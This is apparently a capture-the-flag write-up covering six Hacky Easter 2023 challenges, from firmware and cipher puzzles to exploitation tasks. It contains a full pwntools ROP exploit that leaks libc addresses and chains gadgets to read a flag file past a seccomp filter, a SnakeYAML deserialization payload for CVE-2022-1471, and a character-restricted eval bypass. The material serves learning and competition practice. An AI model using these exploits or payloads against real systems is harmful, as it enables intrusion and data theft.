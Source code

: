 = [HE23.27] Custom Keyboard

image::level7/challenge27.jpg[,300,float="right"]

== Intro
Thumper built his first custom keyboard. He chose all the parts
separately and in the end even adjusted the firmware.

Apparently, there's a flag hidden inside it. Can you find it?

File  ``custom_keyboard.elf``

🚩 Flag

* lowercase and _ only
* example: he2023{example_flag_only}

== Solution
The elf file was produced using gcc for avr8, so use these settings to analyse it in Ghidra.  It is quite a lot of code to sift through since the whole qmk-libraries are included as well...

Luckily, there is a data section called ``flags_leds.8`` which seems to be promising:

                       flag_leds.8
  mem:0216 22 18 0b        undefine
           03 0b 0a 
           10 1f 18 
     mem:0216 22  undefined1  22h [0]
     mem:0217 18  undefined1  18h [1]
     mem:0218 0b  undefined1  0Bh [2]
     mem:0219 03  undefined1  03h [3]
     mem:021a 0b  undefined1  0Bh [4]
     mem:021b 0a  undefined1  0Ah [5]
     mem:021c 10  undefined1  10h [6]
     mem:021d 1f  undefined1  1Fh [7]
     mem:021e 18  undefined1  18h [8]
     mem:021f 25  undefined1  25h [9]
     mem:0220 26  undefined1  26h [10]
     mem:0221 02  undefined1  02h [11]
     mem:0222 1f  undefined1  1Fh [12]
     mem:0223 13  undefined1  13h [13]
     mem:0224 23  undefined1  23h [14]
     mem:0225 22  undefined1  22h [15]
     mem:0226 16  undefined1  16h [16]
     mem:0227 02  undefined1  02h [17]
     mem:0228 16  undefined1  16h [18]
     mem:0229 22  undefined1  22h [19]
     mem:022a 18  undefined1  18h [20]
     mem:022b 02  undefined1  02h [21]
     mem:022c 19  undefined1  19h [22]
     mem:022d 27  undefined1  27h [23]
     mem:022e 15  undefined1  15h [24]
     mem:022f 0f  undefined1  0Fh [25]

26 characters seem to be ok, and starting with a crib of "he2023{" it also is
promising that the 2 is always represented as 0x0b.  So start to develop a
mapping and print the decoded flag.  The value 0x02 is repeated several
times, so it is likely the ``_``.  Then bootstrap from there: `` he`` is very
likely ``the`` and since it is about leds, ``l`` as the first character also
makes sense.

Then it only takes some imagination to find ``he2023{leds_light_the_way}``

[source,python]
----
msg = [0x22, 0x18, 0x0b, 0x03, 0x0b, 0x0a, 0x10, 0x1f,
0x18, 0x25, 0x26, 0x02, 0x1f, 0x13, 0x23, 0x22,
0x16, 0x02, 0x16, 0x22, 0x18, 0x02, 0x19, 0x27,
0x15, 0x0f]

mapping = { 0x22: 'h', 0x18: 'e', 0xb: '2', 0x03: '0',
           0x0a: '3', 0x10: '{', 0x0f: '}', 0x02: '_',
           0x16: 't', 0x1f: 'l', 0x25: 'd', 0x26: 's'}

for i in msg:
    if i in mapping:
        print(f"{mapping[i]}, {ord(mapping[i]):08b} ", end ='')
    else:
        print(" ,          ", end ='')
    print(f"{i:3d} 0x{i:02x}, {i:08b}b")


for i in msg:
    if i in mapping:
        print(f"{mapping[i]}", end ='')
    else:
        print(" ", end ='')

print()
----

Finding the true mapping is left as an exercise to the reader :-)

= [HE23.28] Thumper's PWN - Ring 2 

image::level7/challenge28.jpg[,300,float="right"]

== Intro
Thumper got one step closer to Dr. Evil but there's still a lot he has to
learn. That's why he's practicing the ancient art of ROP. Help him solve this
challenge by reading the file FLAG, so he can be on his way.

Target: `nc ch.hackyeaster.com 2314`

Note: The service is restarted every hour at x:00.

File: `thumperspwn2.zip`

== Solution
We are given a binary and also the source code to it:

[source,c]
----
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <stdbool.h>

#include "seccomp-bpf.h"

bool sec_done = false;

void activate_seccomp()
{
    struct sock_filter filter[] = {
        VALIDATE_ARCHITECTURE,
        EXAMINE_SYSCALL,

        ALLOW_SYSCALL(mprotect),
        ALLOW_SYSCALL(mmap),
        ALLOW_SYSCALL(munmap),
        ALLOW_SYSCALL(exit_group),
        ALLOW_SYSCALL(read),
        ALLOW_SYSCALL(write),
        ALLOW_SYSCALL(open),
        ALLOW_SYSCALL(close),
        ALLOW_SYSCALL(openat),
        ALLOW_SYSCALL(brk),
        ALLOW_SYSCALL(newfstatat),
        ALLOW_SYSCALL(fstat),
        ALLOW_SYSCALL(ioctl),
        ALLOW_SYSCALL(lseek),
        KILL_PROCESS,
    };

    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(struct sock_filter)),
        .filter = filter,
    };

    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
    sec_done = true;
}

void vuln() {
  char buf[32];
  printf("Are you a master of ROP?\n");
  printf("Show me what you can do: ");
  gets(buf);
}

void main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);

  if (!sec_done) {
    activate_seccomp();
  }

  vuln();
}
----

At first sight, it is a classic buffer overflow problem: `gets` can be used to
overflow `buf` and so write to the stack.  When `vuln` returns we can have it
do whatever we want.  But since seccomp is used, not all system calls are
available and we cannot get a shell.  `read` and `open` are available though
and we can list directories and files.

So the plan is as usual: find the offset needed to overwrite the return
address, then leak some library function addresses to identify the used libc
and later on to determine the libc-offset.  Then we can start to craft the real
attack.

The attack tries to open the flag-file and then read from it.  The filename was
found by guessing a few likely candidates and then it was assumed that the
opened file would have a file-descriptor of 3.  Then we can read repeatedly
from the file to a memory location and print the read data using puts.  In
`.bss` there is room for some data (about 0x30), so just experiment with
multiple reads once it is clear that file `FLAG` is the desired file. The final
script to read the flag looks like this:

[source,python]
----
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host ch.hackyeaster.com --port 2314 ./main
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./main')
host = args.HOST or 'ch.hackyeaster.com'
port = int(args.PORT or 2314)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

"""
ropper --nocolor --file /usr/lib/x86_64-linux-gnu/libc.so.6 | grep 'pop rax; ret;'                       

0x000000000003f0a7: pop rax; ret; 
0x00000000001346e6: pop rdi; ret;
0x0000000000028ed9: pop rsi; ret; 
0x00000000000fdc9d: pop rdx; ret; 
0x0000000000026428: syscall; 
"""


rop = ROP(exe)
rop.raw(cyclic(cyclic_find('kaaa', n=4), n=4))
rop.call(exe.symbols['puts'], [exe.got['puts']])
rop.call(exe.symbols['puts'], [exe.got['printf']])
rop.call(exe.symbols['puts'], [exe.got['gets']])
rop.call(exe.symbols['puts'], [exe.got['prctl']])
rop.call(exe.symbols['puts'], [exe.got['setbuf']])
rop.call(exe.symbols['main'])

# shellcode = asm(shellcraft.sh())
# rop.main()

io = start()
log.info(rop.dump())
io.sendline(rop.chain())
# get the leaked address of ASLR puts() in libc in the server
io.recvuntil(b"\n")
io.recvuntil(b": ")
tmp = io.recvuntil(b"\n").rstrip()
leaked_addr_puts_libc = u64(tmp.ljust(8, b"\x00"))
log.info("Leaked server's libc address, puts(): " + hex(leaked_addr_puts_libc))
leaked_addr_printf_libc = u64(io.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info("Leaked server's libc address, printf(): " + hex(leaked_addr_printf_libc))
leaked_addr_gets_libc = u64(io.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info("Leaked server's libc address, gets(): " + hex(leaked_addr_gets_libc))
leaked_addr_prctl_libc = u64(io.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info("Leaked server's libc address, prctl(): " + hex(leaked_addr_prctl_libc))
leaked_addr_setbuf_libc = u64(io.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info("Leaked server's libc address, setbuf(): " + hex(leaked_addr_setbuf_libc))

if args.LOCAL:
    """
    symbols from the local libc (identified from leaked addresses):

    open 00000000000f7d40  # this seems to be incorrect and should be d20...
    00000000000f7d20 <__open_2@@GLIBC_2.7>:

    read 00000000000f8020

    open 00000000000f7e00
    read 00000000000f80e0
    fopen 0000000000076170

    puts 0000000000077820
    printf 0000000000052450
    gets 0000000000076f30

    gadget for rdx from libc (ROPgadget):
    0x00000000000fdc9d: pop rdx; ret;
    0x00000000000352ec : mov qword ptr [rdx], rax ; ret
    """
    libc_path = '/usr/lib/x86_64-linux-gnu/libc.so.6'
    addr_printf = 0x52450
    addr_open = 0xf7d20 - addr_printf + leaked_addr_printf_libc
    addr_fopen = 0x76170 - addr_printf + leaked_addr_printf_libc
    addr_read = 0xf8030 -  addr_printf + leaked_addr_printf_libc
    pop_rdx_addr = 0xfdc9d  -  addr_printf + leaked_addr_printf_libc
    pop_rax_addr = 0x3f0a7  -  addr_printf + leaked_addr_printf_libc
    write_rdx_rax_addr = 0x352ec  -  addr_printf + leaked_addr_printf_libc

else:
    """
    symbols from the remote libc (identified from leaked addresses):
    open 000000000010fbf0
    read 0000000000110020

    printf 0000000000064e40

    gadget for rdx from libc (ROPgadget):
    0x0000000000001b96: pop rdx; ret;  
    0x000000000001b500: pop rax; ret; 
    0x000000000003099c : mov qword ptr [rdx], rax ; ret
    """
    addr_printf = 0x64e40
    addr_open = 0x10fbf0 - addr_printf + leaked_addr_printf_libc
    addr_read = 0x110020 -  addr_printf + leaked_addr_printf_libc

    pop_rdx_addr = 0x1b96  -  addr_printf + leaked_addr_printf_libc
    pop_rax_addr = 0x1b500  -  addr_printf + leaked_addr_printf_libc
    write_rdx_rax_addr = 0x3099c  -  addr_printf + leaked_addr_printf_libc

# data_addr is where we want to write the file name to (.bss)
data_addr = p64(0x601030)

rop = ROP(exe)
from pwnlib.rop.rop import Gadget
rop.gadgets[pop_rdx_addr] = Gadget(pop_rdx_addr,
    ['pop rdx', 'ret'], ['rdx'], 0x10)
rop.gadgets[pop_rax_addr] = Gadget(pop_rax_addr,
    ['pop rax', 'ret'], ['rax'], 0x10)
rop.gadgets[write_rdx_rax_addr] = Gadget(write_rdx_rax_addr,
    ['mov qword ptr [rdx], rax', 'ret'], ['[rdx]', 'rax'], 0x10)

rop.raw(cyclic(cyclic_find('kaaa', n=4), n=4))

# write the filename to data_addr
rop(rdx=data_addr)
rop(rax=b'FLAG\x00$$$')
rop.call(write_rdx_rax_addr)
rop(rdi=data_addr)
rop.call(exe.symbols['puts'])
# now open the file
rop(rax=0x0)
rop(rdx=0x0)
rop(rsi=0x0)
rop(rdi=data_addr)
rop.call(addr_open)
# do five calls to read data from the file, write to data_addr
# and print using puts
for _ in range(5):
    rop(rdi=0x3)
    rop(rsi=data_addr)
    rop(rdx=0x30)
    rop.call(addr_read)
    rop(rdi=data_addr)
    rop.call(exe.symbols['puts']) 
rop.call(exe.symbols['main'])

log.info(rop.dump())
io.sendline(rop.chain())
io.interactive()
----

The output looks like:

  [*] Switching to interactive mode
  Are you a master of ROP?
  Show me what you can do: FLAG
  Unfortunately, no one can be told what the Matri
  x is.
  You have to see it for yourself.
  This is y
  our last chance.
  After this there is no turning
  back.
  
  Here is your flag:
  
  he2023{N0t_bad_y0u_by
  pa$$ed_th3_s3c_f1lt3r}

So the flag is `he2023{N0t_bad_y0u_bypa$$ed_th3_s3c_f1lt3r}`

= [HE23.29] Coney Island Hackers 2

image::level7/challenge29.jpg[,300,float="right"]

== Intro
Coney Island Hackers are back!

They changed the passphrase of their secret web portal to: ``coneʸisland``.

However, they implemented some protection:

* letters and some special characters are not allowed
* maximum length of the string entered is 75

http://ch.hackyeaster.com:2302

Note: The service is restarted every hour at x:00.

=== Hint
``eval``

== Solution
The problem sounds like it could be solved with http://www.jsfuck.com/, but it
needs to be shortened to fit with the 75 character limit.  We also note that
some non-ASCII characters are allowed (the y in coneyislang).  So we can create
a variable containing a string and concatenate letters from this string.

  ä=[!1]+[][0]+''+{};  // "falseundefined[object Object]"

So using this variable ``ä`` we have all letters needed and can build the password 

  ä[19]+ä[15]+ä[6]+ä[4]+"ʸ"+ä[10]+ä[3]+ä[2]+ä[1]+ä[6]+ä[7]

Put together, these are exactly 75 characters and can be entered to get the
flag ``he2023{fun_w1th_ev1l_ev4l_1n_nyc}``

=== Notes
https://github.com/aemkei/jsfuck

= [HE23.30] Digital Snake Art

image::level7/challenge30.jpg[,300,float="right"]

== Intro
I'm a big fan of digital art!

How do you like my new gallery?

File: ``digitalsnakeart.zip``

http://ch.hackyeaster.com:2307

Note: The service is restarted every hour at x:00.

== Solution
The file contains part of the source code to the service.  From this source code we learn that there is a flag hidden somewhere, Flag being a subclass of Image.

To look at an image, a base64 encoded YAML file is sent to the service.  An example is:

  name: Snake and Rabbit Being Friends
  image: snake_and_rabbit_being_friends
  source: DALL-E
  resolution: 256x256

From the source code we see that SnakeYAML is used to create the objects from the YAML and this library has a known vulnerabilty (CVE-2022-1471).  This vulnerability allows to generate any object within the classpath and in this case allows us to create a flag object.

Flag takes a code as argument, code is of type Code and the code is set via the constructor.  From the source code we can learn that it must be between 0 and 500:

[source,java]
----
package com.hackyeaster.digitalsnakeart;

public class Code {

    private final short code;

    public Code(short code) {
        this.code = code;
    }

    public boolean isCorrect() {
        return (code > 0 && code < 500 && code == SnakeService.getSecretCode());
    }

}
----

The idea is now to generate a request to create a flag and the brute force the code.  After some experimenting, this payload was found effective:

  name: Snake as a Super Hero
  image: !!com.hackyeaster.digitalsnakeart.Flag [!!com.hackyeaster.digitalsnakeart.Code [ 198 ] ]
  source: DALL-E
  resolution: 256x256

Success can be juged by the image returned:

image::level7/198.png[,300,float="right"]
image::level7/199.png[,300,float="left"]

The flag is ``he2023{0n3_d03s_n0t_s1mply_s0lv3_th1s_chllng!}``


= [HE23.31] Fruity Cipher

image::level7/challenge31.jpg[,300,float="right"]

== Intro

I found this fruity message. Can you decrypt it?

   🥦🥝🍋🍊🥭🍌🫑🧅 🧅🥝🥖 🍉🍠🥬🫐 🍉🫐🥔🥥🍈 🥔🍌🥝🥖🍏 🥐🍍🥦🍉🍇🥥🍋 🥑🍉🍍🥐🍉 🍅🍠🥦 🍋🥭🍓🍐🌶🍇 🥕🌶🥔🥭🍓🍏🍒🍆🍏 🌶🫐🍎🍏🍒🥥🍊 🍎🥝 🍅🥝🥥🍇 🍎🍉🥔🍓 🥝🍓🍇 🥐🥭🥦🍉🍇🥥🍏🫐🍆🍎 🌶🫐🍎🍏🍇🥥🍋 🍎🍉🍇🍊🫐 🍠🥥🍒 🥐🍠🌶🫑🫐🍈 🍉🥝🍅🥝🥦🍉🥝🍓🍍🥐 🥐🍍🥕🍉🫐🥥🍋 🍏🍉🍇 🍋🥝🫑🥖🍏🍍🥝🍓 🥭🍋 🍉🧅🥦🍒🥥🥬🥭🍏🍠🍅🥭🍓🥝🍋🥭🍊

image::level7/fruity_cipher.png[,650,]

🚩 Flag

* lowercase only, no spaces
* wrap into he2023{ and }
* example: he2023{exampleflagonly}

=== Hints

* the plaintext consist of lowercase letters (and spaces) only
* there are more than 26 symbols
* 🍏 == 🍎

== Solution

It is very likely a homophonic substitution cipher, so convert it to a
uppercase alphabeth and start bootstrapping using short words.  To aid it, a
simple progam was written to test out the substitutions.  The final run is
shown here:

  _ python .\solve31.py
  {'🥦': 'A', '🥝': 'B', '🍋': 'C', '🍊': 'D', '🥭': 'E', '🍌': 'F',
   '🫑': 'G', '🧅': 'H', ' ': ' ', '🥖': 'I', '🍉': 'J', '🍠': 'K', 
   '🥬': 'L', '🫐': 'M', '🥔': 'N', '🥥': 'O', '🍈': 'P', '🍎': 'Q', 
   '🥐': 'R', '🍍': 'S', '🍇': 'T', '🥑': 'U', '🍅': 'V', '�'': 'W', 
   '🍐': 'X', '🌶': 'Y', '🥕': 'Z', '🍒': '1', '🍆': '2'}
  ABCDEFGH HBI JKLM JMNOP NFBIQ RSAJTOC UJSRJ VKA CEWXYT ZYNEWQ12Q YMQQ1OD
  QB VBOT QJNW BWT REAJTOQM2Q YMQQTOC QJTDM KO1 RKYGMP JBVBAJBWSR RSZJMOC 
  QJT CBGIQSBW EC JHA1OLEQKVEWBCED
  {'A': 6, 'B': 12, 'C': 8, 'D': 4, 'E': 8, 'F': 2, 'G': 3, 'H': 3, 
   ' ': 25, 'I': 3, 'J': 13, 'K': 5, 'L': 2, 'M': 8, 'N': 4, 'O': 9, 
   'P': 2, 'Q': 15, 'R': 6, 'S': 5, 'T':  8, 'U': 1, 'V': 4, 'W': 7, 
   'X': 1, 'Y': 5, 'Z': 2, '1': 4, '2': 2}
  possibly you have heard about ciphers which map single plaintext letters
  to more than one ciphertext letters these are called homophonic ciphers
  the solution is hypervitaminosis

Flag: ``he2023{hypervitaminosis}``

= [HE23.32] Kaos Motorn

image::level7/challenge32.jpg[,300,float="right"]

== Intro
What?
Is?
This?
Kaos?

=== Hint
Inputs are in the range 0..9.

== Solution
The link presented takes us to a Google spreadsheet that looks quite funny
(here the flag is already visible):

image::level7/flag32.png[,400,]

Analysing the formulas and copying them into a python file allows us to brute force the keyword.

[source, python]
----
def MOD(n1,n2):
    return n1 % n2

def CHAR(n):
    try:
        return chr(n)
    except Exception:
        return ' '

def kaos(E2,F2,J6,B7,D14,G14):
    F12=MOD(E2*B7+D14,64)
    C3=(J6+B7+34+G14)%64
    H3=(B7*J6*7)%64
    B13=MOD(B7*J6*G14+5,64)
    F4=(E2*G14+D14+J6)%64
    D5=(E2+J6+B7+D14+G14)%64
    J13=MOD(D14+B7*E2,64)
    I5=(H3+D5)%64
    G6=MOD(G14*B7+D14,64)
    C6=MOD(H3+G6+B13+3,64)
    D11=MOD(E2*G14,64)

    J3=(F12+D11+D5+F4)%64
    I7=MOD(F12+D11*G6+H3,64)
    F10=MOD(J13+F12+D11+F4+17,64)
    I10=MOD(J6*G14+B7,64)
    B5=(J13+D11+F12+I10)%64
    E6=MOD(F4+D11+I10,64)
    H11=MOD(C3+H3+F12,64)
    C12=MOD(B13+F12+I10,64)
    H13=MOD(H3+G6+F12+D11+B13+B13,64)

    ## OUTPUT???
    B8=CHAR(52+B5)
    C8=CHAR(44+I7)
    D8=CHAR(48+J3)
    E8=CHAR(45+E6)
    F8=CHAR(42+I5)
    G8=CHAR(63-F10)
    H8=CHAR(H13+93)
    I8=CHAR(C12+68)
    J8=CHAR(H13+74)
    B9=CHAR(I7-5)
    C9=CHAR(C6*6+2)
    D9=CHAR(I7+B5+J6-34)
    E9=CHAR(91-C12)
    F9=CHAR(I7+H11-10)
    G9=CHAR(B5-4)
    H9=CHAR(H11+H13+I5+J3)
    I9=CHAR(H13+E6)
    J9=CHAR(E6*H11-25)
    return B8+C8+D8+E8+F8+G8+H8+I8+J8+B9+C9+D9+E9+F9+G9+H9+I9+J9


import itertools
for n1, n2 in itertools.product(range(10), range(10)):
    for n3, n4, n5, n6 in itertools.product(range(10), range(10), range(10), range(10)):
        flag = kaos(n1,n2,n3,n4,n5,n6)
        if flag[:6] == "he2023":
            print(n1,n2,n3,n4,n5,n6)
            print(flag)
            exit()
    print(n1,n2)
----

This prints 
  8 0 8 2 1 5
  he2023{Th4tSKa0Z!}
